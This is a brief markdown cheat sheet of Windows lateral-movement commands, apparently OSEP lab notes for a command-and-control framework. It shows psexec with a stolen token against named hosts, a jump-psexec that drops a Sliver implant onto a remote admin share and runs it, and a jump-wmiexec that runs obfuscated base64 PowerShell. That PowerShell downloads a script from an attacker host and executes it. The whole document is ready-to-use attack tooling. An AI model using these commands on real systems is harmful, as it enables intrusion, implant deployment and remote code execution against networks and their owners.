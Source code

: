 # PsExec

### 1) Use psexec to move laterally after creating/stealing token

    psexec -d Title -s Description -p osep-lateral machine02.domain.com
    psexec -d Title -s Description -p osep-lateral DC06

### 2) Use the new session

    use a4a458c1

### 3) jump-psexec

    jump-psexec dc04 AgentSvc /home/kali/OSEP/hav0c/sliver.x64.exe //dc04/c$/file2.exe

### 4) jump-wmiexec

    jump-wmiexec client09 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4AMQAxAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=='
